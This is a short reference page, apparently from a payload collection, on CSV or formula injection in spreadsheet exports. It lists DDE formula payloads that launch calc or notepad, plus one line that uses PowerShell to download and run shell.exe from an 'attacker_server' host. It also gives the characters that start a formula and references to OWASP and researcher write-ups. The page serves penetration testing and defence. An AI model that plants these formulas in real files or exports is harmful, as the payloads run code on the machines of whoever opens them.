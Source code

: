 # CSV Injection (Formula Injection)

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/index.php/CSV_Excel_Macro_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection)
* [Comma Separated Vulnerabilities - James Kettle](https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)